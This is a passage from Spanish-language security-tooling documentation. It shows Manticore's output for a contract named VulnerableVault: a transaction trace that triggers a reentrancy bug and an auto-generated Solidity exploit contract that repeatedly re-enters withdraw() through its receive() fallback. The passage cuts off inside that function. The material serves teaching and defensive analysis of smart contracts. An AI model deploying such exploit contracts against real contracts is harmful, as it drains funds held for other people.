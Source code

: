 ### 4.8.3 Generación de Exploits

**Output de Manticore:**

```
mcore_VulnerableVault_0x1234/
├── test_00000001.tx        # Transacciones que llevan al bug
├── test_00000001.summary   # Resumen del issue
├── test_00000001.trace     # Trace de ejecución
└── test_00000001.constraints  # Path constraints

# test_00000001.tx
Transaction 1:
    From: 0x1000
    To: VulnerableVault
    Function: deposit()
    Value: 1000000000000000000 (1 ether)

Transaction 2:
    From: 0x1000
    To: VulnerableVault
    Function: withdraw(uint256)
    Params: amount=500000000000000000
    Value: 0

Transaction 3 (reentrancy):
    From: AttackerContract
    To: VulnerableVault
    Function: withdraw(uint256)
    Params: amount=500000000000000000
    Value: 0
```

**Exploit Auto-Generado:**

```solidity
// Auto-generated by Manticore
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableVault.sol";

contract ManticoreExploit {
    VulnerableVault public target;
    uint256 public attackCount;

    constructor(address _target) {
        target = VulnerableVault(_target);
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Need 1 ETH");

        // Step 1: Deposit
        target.deposit{value: 1 ether}();

        // Step 2: Trigger reentrancy
        target.withdraw(0.5 ether);
    }

    receive() external payable {
        // Reentrancy callback
        if (address(target).balance >= 0.5 ether && attackCount < 3) {
            attackCount++;
            target.withdraw(0.5 ether);
```